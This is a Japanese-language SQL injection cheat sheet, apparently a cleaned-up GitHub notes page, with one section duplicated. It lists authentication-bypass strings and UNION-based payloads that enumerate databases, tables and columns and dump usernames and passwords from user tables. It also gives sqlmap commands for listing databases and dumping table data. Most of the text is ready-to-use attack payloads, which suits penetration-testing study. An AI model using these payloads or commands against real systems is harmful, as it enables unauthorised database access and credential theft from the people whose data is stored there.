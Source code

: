 以下の通り、目次付きの清書を行いました。また、いくつか誤字や内容の改善を加えました。

---

# 目次
1. [Basic](#basic)
   1. [有効性のチェック](#有効性のチェック)
   2. [テーブル数を特定する](#テーブル数を特定する)
2. [Union Based SQLインジェクション](#union-based-sqlインジェクション)
3. [SQLmapの使用例](#sqlmapの使用例)

---

# Basic

## 有効性のチェック
- `' or '1'='1';--`を入力し、通常の入力時と挙動の違いがあるかを**BurpSuite**などのツールを使って確認します。

## テーブル数を特定する
- `' union select null;--`を入力し、カラム数に関するエラーが出た場合は、以下のように徐々にカラム数を増やして特定します。
  
```bash
' union select null, null, null, null, null;--
```

- 以下のコマンドで、カラム数の順序を特定できます。
```bash
' or 1=1 order by 10 #
```

### 例として使用可能なSQLインジェクション入力
- `admin' or '1'='1`
- `'or '1'='1 --`
- `"or "1"="1`
- `"or "1"="1" --`
- `") or "1"="1 --`
- `"or 1=1 --`
---

# Union Based SQLインジェクション

**Union Based SQL Injection**とは、`union`を使って行を挿入し、内部情報を抽出する手法です。

## テーブル数を特定する
- `' union select null;--`を入力し、カラム数に関するエラーが出た場合は、以下のように徐々にカラム数を増やして特定します。
  
```bash
' union select null, null, null, null, null;--
```

- 以下のコマンドで、カラム数の順序を特定できます。
```bash
' or 1=1 order by 10 #
```

## Unionの具体例と説明

1. **現在のユーザー、データベース、バージョン情報の取得**
   ```bash
   ' or 1=1 union select 1,2,3,user(),database(),version();#
   ```
   - 目的: データベースサーバーにログインしているユーザー名、現在使用しているデータベース名、およびサーバーのバージョン情報を取得します。

2. **データベースの一覧を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(schema_name),5,6 from information_schema.schemata;#
   ```
   - 目的: データベースサーバーに存在するすべてのデータベース名を取得します。`information_schema.schemata`は、データベース名を保持するテーブルです。

3. **特定のテーブルのカラム名を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='Users';#
   ```
   - 目的: `Users`という名前のテーブルに含まれるカラム（列）の名前を取得します。`information_schema.columns`は、すべてのテーブルのカラム情報を保持するテーブルです。

4. **特定のテーブルからユーザーID、ユーザー名、パスワードを抽出**
   ```bash
   ' or 1=1 union select 1,2,group_concat(UserID),group_concat(Username),group_concat(Password),6 from Users;#
   ```
   - 目的: `Users`テーブルからユーザーID、ユーザー名、およびパスワード情報をまとめて取得します。複数のデータを`group_concat`関数で連結しています。

5. **特定のデータベースのテーブル名を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema='users';#
   ```
   - 目的: `users`データベースに含まれるすべてのテーブル名を取得します。`information_schema.tables`は、すべてのデータベース内のテーブル情報を保持するテーブルです。

6. **特定のテーブルのカラム名を取得（具体例: UserDetailsテーブル）**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='UserDetails';#
   ```
   - 目的: `UserDetails`という名前のテーブルに含まれるカラム（列）の名前を取得します。この例では、`id`, `firstname`, `lastname`, `username`, `password`, `reg_date`といったカラムが含まれます。

7. **ユーザー名とパスワードの取得（具体例: UserDetailsテーブル）**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(username),group_concat(password),6 from users.UserDetails;#
   ```
   - 目的: `UserDetails`テーブルからすべてのユーザー名とパスワードを取得します。`group_concat`関数を使用して、複数のユーザー情報をまとめて抽出しています。

---

これで、各行の目的や意味がより明確になりました。内容に不明な点があればお知らせください。

# SQLmapの使用例

**SQLmap**は、SQLインジェクションの検出や悪用に特化したツールです。以下はその基本的な使用例です。

1. **目標のURLを特定する**  
   SQLmapで検査対象のウェブサイトやアプリケーションのURLを指定します。
   
2. **検査の開始**  
   SQLmapで対象のURLに対してSQLインジェクション攻撃を実行します。
   
   ```bash
   sqlmap -u <target_URL>
   ```
   例: `sqlmap -u http://example.com/page.php?id=1`

3. **自動検出**  
   SQLmapは自動で脆弱性を検出します。検出結果は詳細に表示されます。

4. **脆弱性の調査と悪用**  
   SQLmapでデータベースの情報を抽出したり、脆弱性を利用して攻撃を実行できます。

   - データベースの名前を取得:
     ```bash
     sqlmap -u <target_URL> --dbs
     ```

   - テーブルを列挙:
     ```bash
     sqlmap -u <target_URL> -D <database_name> --tables
     ```

   - テーブルのデータを取得:
     ```bash
     sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump
     ```

---

# 参考リンク
- [SQLmapの公式ドキュメント](https://shukapin.com/security/sqlmap)
- [HackTricks SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

---

# SQLmapのオプション

| オプション  | 説明                           | 例                              |
|-------------|--------------------------------|---------------------------------|
| `-u`        | URL指定                        | `sqlmap -u http://10.10.10.1/`  |
| `--batch`   | インタラクティブモードを無効化  | `sqlmap -u URL --batch`         |
| `--dbs`     | 利用可能なデータベース名の取得  | `sqlmap -u URL --dbs`           |
| `--all`     | すべての情報を取得              | `sqlmap -u URL --all`           |

---